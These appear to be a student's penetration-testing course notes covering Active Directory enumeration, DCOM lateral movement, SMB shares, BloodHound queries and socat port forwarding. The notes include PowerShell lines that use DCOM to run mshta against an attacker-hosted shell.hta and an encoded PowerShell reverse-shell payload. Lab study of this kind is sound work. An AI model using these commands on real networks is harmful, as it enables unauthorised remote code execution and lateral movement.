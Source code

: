 # Incomplete Sections

| Chapter                | Section | Lab Exercise |
| ---------------------- | ------- | ------------ |
| SQL Injection          | 10.3.2  | 4, 6, 7      |
| Client Side Attacks    | 11.2.3  | 2            |
| Client Side Attacks    | 11.3.1  | 1, 3         |
| AD Enumeration         | 21.4.2  | Capstone     |
| Attacking AD Auth      | 22.2.4  | 1            |
| Lateral Movement in AD | 23.1.1  | 2            |
| Lateral Movement in AD | 23.1.2  | 2            |
| Lateral Movement in AD | 23.1.3  |              |

---

# Queries
1. **Section - 21.3.3** - How are SPNs useful while attacking?
2. Not able to run CrackMapExec due to lack of a VENV in python.
3. If i’m logged in as dave. Then if I find that stephanie also has a session on the same machine, what does that mean? What can i do? This can be done with `.\PSLoggedon.exe //files04` command.

```PowerShell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.72"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c mshta.exe http://192.168.XXX.XXX/shell.hta","7")
```

```PowerShell
LINE1 $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.72"))
LINE2 $dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c mshta.exe http://192.168.119.147/shell.hta","7")

LINE1 $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.73")) LINE2 $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A....","7")
```


[Ligolo-Ng - References](https://discord.com/channels/780824470113615893/1087927333731713094/1194045054671659018)
[CME Help](https://medium.com/r3d-buck3t/crackmapexec-in-action-enumerating-windows-networks-part-2-c61dfb7cd88e)

```text
net use \\computername\sharename
net view \\computername\sharename
dir \\computername\sharename
copy \\computername\sharename\file.txt file.txt
type \\computername\sharename\file.txt 
```

4. If we get a reverse shell, and it is running WSL, it would seem that we have ented a Linux System, however, in reality it would be a Windows System. Do commands like `uname -all` or `whoami` give you better clarification on wether or not it is a Winows System in reality?

---

# Command Dump Windows

```bash
impacket-smbserver share_name ./path/to/share -smb2support -user 'usr' -password 'pswd'
net use m: \\$KALI_IP\share_name # m: is just a random drive letter.
```

# Bloodhound Custom Queries
1. Get a list of all computers on the domain > `MATCH (m:Computer) RETURN m`
2. Get all users in the domain > `MATCH (m:User) RETURN m34`
3. Get all active sessions > `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`

# Port Forwarding Process
1. Creating a forward on the Dual Homed Machine with SOCAT:
```bash
# start a socat process on the dual_homed machine
# SOCAT WORKING
# socat "LISTEN" and then "FORWARD"
# socat TCP-LISTEN:$PORT,fork -- opens a port on the DH machine.
# fork -- creates a new process.
# TCP:$INTERNAL_TARGET_TP:$PORT -- this port should already be open.
# Ports 0-1024 require privs, do not use.
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
![[Pasted image 20240111165811.png]]

2. Interacting with a port on one of the internal machines (PostgreSQL):
```bash
# now just interact with the internal IP just like normal.
psql -h $DH_IP -p $INTERNAL_PORT -U $USR
# $DH_IP -- send all traffic to the dual homed machine.
# DH Machine will forward it to the internal machine (via socat),
```